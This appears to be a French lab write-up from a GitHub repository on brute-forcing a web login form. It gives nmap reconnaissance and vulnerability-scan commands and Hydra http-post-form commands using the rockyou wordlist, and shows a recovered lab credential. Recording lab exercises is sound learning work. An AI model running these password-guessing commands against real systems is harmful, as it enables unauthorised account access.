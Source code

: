 # Brute force mot de passe   

___

Les étapes :     
**ifconfig** pour avoir le masque sous réseau et en déduire l'IP du réseau   
Scan du réseau pour voir l'ensemble des ports ouverts et des machines connectées avec **nmap IP du réseau**    
Obtenir des infos sur la cible (son adresse IP, ses ports ouverts, les statuts des ports et les services qu'ils utilisent, son adresse mac, son OS)   
avec **nmap -O IP de la machine connectée** et **nmap --script default IP de la machine connectée au réseau**          
Scan des vulnérabilités avec **nmpap -v --script vuln IP de la machine connectée**  
____

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/2fd3b248-1870-4147-9fc5-da17a689d2b6)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/03415c7f-de60-4abb-812c-adda0fd781fb)

https://gist.githubusercontent.com/techerbeatrice/8204e406ba94922aba76167b08c2c38e/raw/fad76d1f4dc16377b9ecd98f9f6f52c13e6a4443/gistfile1.txt


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/419dbeba-f18e-4c21-9d4c-df2f7cbbadfb)

_____

Le lien php à craquer :    

http://192.168.56.104/login.php?login=admin

_____

Commande sur Hydra :    

hydra  -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.104 http-post-form "/login:username=^USER^&password=^PASS^:F=Mot de passe invalide" -V

Comment utiliser hydra sur un formulaire web?
Pour faire du bruteforce avec hydra sur une formulaire web, il faudra utiliser la syntaxe suivante
**hydra -l -P http-post-form "{lien vers la page de connexion}:{les paramètres du formulaire}:F={message a rechercher sur la page si la connexion échoue}"**

Dans notre cas l’adresse de la cible est http://192.168.56.104/login, le message d’erreut est “Mot de passe invalide”, et enfin les paramètres de la requête que nous avons pu avoir grâce a l’option réseau du web develloper de firefox.


La commande finale donne:

hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/login:username=^USER^&password=^PASS^:F=Your password is incorrect" -V. 
Résultat…

[80][http-post-form] host: 10.10.219.212   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found


